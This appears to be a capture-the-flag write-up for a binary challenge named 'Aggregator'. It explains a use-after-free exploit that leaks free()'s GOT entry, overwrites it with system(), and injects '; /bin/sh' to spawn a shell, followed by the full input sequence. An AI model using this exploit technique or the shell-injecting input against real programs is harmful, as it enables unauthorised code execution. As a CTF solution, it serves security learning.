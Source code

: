 # Aggregator

I noticed that there was a use-after-free error, so I played around with inputs in GDB until I got a writable data pointer that also pointed to the location of an active table entry, then wrote over the pointer to the table entry's data with the pointer to the GOT of free(), found the offsets of the GOT of free() and system() in GDB in the web terminal, and used the aggregator feature to read out the value of the free() GOT entry.  Then I added in the offset and wrote system() to the GOT entry, finally writing a techinically valid line that contained "; /bin/sh" so the program would call free() on it, and gave me a shell.

Inputs:
```txt
3-1-1 999
2-1-1 420
4-1-1 1
4-1-1 2
4-1-1 3
4-1-1 4
4-1-1 5
4-1-1 6
4-1-1 7
4-1-1 8
4-1-1 9
4-1-1 10
4-1-1 11
4-1-1 12
4-1-1 13
4-1-1 14
4-1-1 15
4-1-1 16
4-1-1 17
4-1-1 18
4-1-1 19
4-1-1 20
4-1-1 21
4-1-1 22
4-1-1 23
4-1-1 24
4-1-1 25
4-1-1 26
4-1-1 27
4-1-1 28
4-1-1 29
4-1-1 30
4-1-1 31
4-1-1 32
4-1-1 33
4-1-1 34
4-1-1 35
4-1-1 36
4-1-1 37
4-1-1 38
4-1-1 39
4-1-1 40
4-1-1 41
~2-1-1
~3-1-1
~4-1-1
5-1-1 99
1-1-1 6299376
1-1-1 72340172838076673
1-1-1 18446744073709551615
1-1-1 1
1-1-1 0
aM 4-1 THIS PRINTS THE ADDRESS OF FREE
4-1-1 ADDRESS OF SYSTEM (offset: -0x3b170)
4-1-1 ADDRESS OF SYSTEM
a+ 1-1 ; /bin/sh
```
